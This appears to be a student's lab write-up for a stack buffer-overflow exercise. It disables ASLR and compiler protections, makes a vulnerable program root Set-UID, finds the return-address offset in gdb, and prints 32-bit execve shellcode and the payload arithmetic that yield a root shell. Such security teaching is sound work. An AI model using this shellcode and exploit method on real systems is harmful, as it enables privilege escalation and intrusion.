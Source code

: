 # Trabalho realizado na Semana #5

>We firstly turned off OS protections with the following code:
>```
>$ sudo sysctl -w kernel.randomize_va_space=0
>$ sudo ln -sf /bin/zsh /bin/sh
>```

## Task 1

>We ran the following program:
>```
>char *name[2];
>name[0] = "/bin/sh";
>name[1] = NULL;
>execve(name[0], name, NULL);
>```
>Then, we did the same with the 32 and 64 bits ones.
>
>In all cases, a shell was open in the same directory where the program was executed.

## Task 2

>By studying the code in the stack.c program, we realized that `strcopy` does not verify `str` size (517 bytes), which is copied to the array (100 bytes). Therefore, a buffer overflow occurs.
>
>We changed the program owner to `root` and activated `Set-UID` and deactived StackGuard and protections against code execution called by the stack.
>```
>$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
>$ sudo chown root stack
>$ sudo chmod 4755 stack
>```

## Task 3

>To exploit the vulnerability, we created an empty `badfile` and executed the vulnerable code in debug mode, so we could fiugre out the `bof()` function's return address compared to the start of the buffer.
>
>To that end, we used `gbd` and used a breakpoint in the `bof()` function.
>```
>$ touch badfile
>$ gdb stack-L1-dbg
>gdb-peda$ b bof 
>Breakpoint 1 at 0x12ad: file stack.c, line 16.
>gdb-peda$ run 
>...
>Breakpoint 1, bof (str=0xffffcf43 "V\004" as stack.c:16)
>16 {
>gdb-peda$ next
>...
>gdb-peda$ p $ebp 
>$1 = (void *) 0xffffcb18
>gdb-peda$ p &buffer 
>$2 = (char (*)[100]) 0xffffcaac
>gdb-peda$ quit
>```
>
>In the given python program, we made the following changes:
>
>The `shellcode` variable was changed to the 32-bits that executes the shell.
>```
>shellcode= (
> "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
> "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
> "\xd2\x31\xc0\xb0\x0b\xcd\x80"
>).encode('latin-1')
>```
>
>The `start` variable, so that the shellcode would go to the end of the array.
>```
>start = 517-len(shellcode)  
>```
>
>Calculated the new return address.
>```
>ret = 0xffffcb18 + start 
>```
>
>With the 2 obtained addresses, we calculated the return address based on the start of the array (offset)
>```
>offset = 0xffffcb18 - 0xffffcaac + 4 
>```
>
>Executing this program generated a `badfile` file.
>
>Finally, we executed the program that creates the buffer overflow and boots a shell with root permissions.
